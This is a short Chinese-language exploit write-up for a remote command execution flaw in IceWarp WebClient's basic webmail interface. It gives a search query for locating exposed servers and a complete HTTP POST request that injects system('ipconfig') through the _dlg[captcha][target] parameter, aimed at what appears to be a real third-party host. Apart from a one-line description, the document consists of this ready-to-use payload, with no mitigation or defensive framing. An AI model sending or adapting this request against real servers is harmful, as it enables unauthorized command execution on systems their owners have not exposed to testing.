

# IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响 

```
IceWarp WebClient
```

## 网络测绘

```
app="IceWarp-公司产品"
```

## 漏洞复现

登录页面如下


漏洞请求包为

```plain
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```


